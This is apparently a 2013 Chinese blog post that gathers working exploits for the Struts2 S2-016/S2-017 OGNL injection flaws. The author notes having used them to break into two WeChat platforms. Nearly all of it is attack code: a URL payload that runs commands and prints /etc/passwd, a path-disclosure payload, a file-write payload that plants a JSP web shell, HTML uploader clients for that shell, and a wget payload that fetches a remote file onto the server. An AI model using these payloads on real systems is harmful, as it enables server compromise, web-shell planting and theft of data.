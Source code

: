 title: Struts2 漏洞<无法生成>
tags:
  - hack
id: 766
categories:
  - Hack
date: 2013-07-18 17:54:51
---

Struts2 S2-016S2-017 漏洞
[![V](http://7xnueu.com1.z0.glb.clouddn.com/2013/07/V.jpg)](http://7xnueu.com1.z0.glb.clouddn.com/2013/07/V.jpg)

很有必要转载一个，毕竟搞到了2个微信的平台。
大家都发了，，我就整理了一下。友情提示，自己小命比shell重要哦。。
喜欢就点一下感谢吧^_^
带回显命令执行：
> http://www.example.com/struts2-blank/example/X.action?redirect:${%23a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{'cat','/etc/passwd'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew java.io.InputStreamReader(%23b),%23d%3dnew java.io.BufferedReader(%23c),%23e%3dnew char[50000],%23d.read(%23e),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()}

爆路径：
> http://www.example.com/struts2-blank/example/X.action?redirect%3A%24%7B%23req%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27%29%2C%23a%3D%23req.getSession%28%29%2C%23b%3D%23a.getServletContext%28%29%2C%23c%3D%23b.getRealPath%28%22%2F%22%29%2C%23matt%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23matt.getWriter%28%29.println%28%23c%29%2C%23matt.getWriter%28%29.flush%28%29%2C%23matt.getWriter%28%29.close%28%29%7D

写文件：
>http://www.example.com/struts2-blank/example/X.action?redirect:${ 
%23req%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),
 %23p%3d(%23req.getRealPath(%22/%22)%2b%22css3.jsp%22).replaceAll("\\\\", "/"), 
new+java.io.BufferedWriter(new+java.io.FileWriter(%23p)).append(%23req.getParameter(%22c%22)).close()
 }&c=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e

写入的文件内容：
```JSP
<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>
```

其实就是一个jsp的小马，需要客户端配合
函数f是文件名，t是内容
客户端：
```HTML
<form action="http://www.example.com/struts2-blank/example/css3.jsp?f=fjp.jsp" method="post">
<textarea name=t cols=120 rows=10 width=45>your code</textarea><BR><center><br>
<input type=submit value="提交">
</form>
```
就在当前目录建立一个fjp.jsp
> shell：http://www.example.com/struts2-blank/example/fjp.jsp
还有@园长的一个客户端：
```HTML
<html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<title>jsp-园长</title>
</head>
<style>
.main{width:980px;height:600px;margin:0 auto;}
.url{width:300px;}
.fn{width:60px;}
.content{width:80%;height:60%;}
</style>
<script>
  function upload(){
    var url = document.getElementById('url').value,
      content = document.getElementById('content').value,
      fileName = document.getElementById('fn').value,
      form = document.getElementById('fm');
    if(url.length == 0){
      alert("Url not allowd empty!");
      return ;
    }
    if(content.length == 0){
      alert("Content not allowd empty!");
      return ;
    }
    if(fileName.length == 0){
      alert("FileName not allowd empty!");
      return ;
    }
    form.action = url;
    form.submit();
  }
</script>
<body>
<div class="main">
  <form id="fm" method="post">
    URL:<input type="text" value="http://localhost/Struts2/css3.jsp" class="url" id="url"/>&nbsp;&nbsp;
     FileName:<input type="text" name="f" value="css.jsp" class="fn" id="fn" />&nbsp;&nbsp;
     <a href="javascript:upload();">Upload</a><br/>
    <textarea id="content" class="content" name="t" ></textarea>
  </form>
</div>
</body>
</html>
```

还有@X发的一个wget的getshell
```
?redirect:${%23a%3d(new  java.lang.ProcessBuilder(new java.lang.String[]{'wget','http://www.url.com/xx.txt','- O','/root/1.jsp'}
 )).start(),%23b%3d%23a.getInputStream(),%23c%3dnew java.io.InputStreamReader(%23b), %23d%3dnew java.io.BufferedReader(%23c),%23e%3dnew char[50000],%23d.read(%23e), %23piaoye%3d%23context.get ('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23piaoye.getWriter().println (%23e),%23piaoye.getWriter().flush(),%23piaoye.getWriter().close()}
```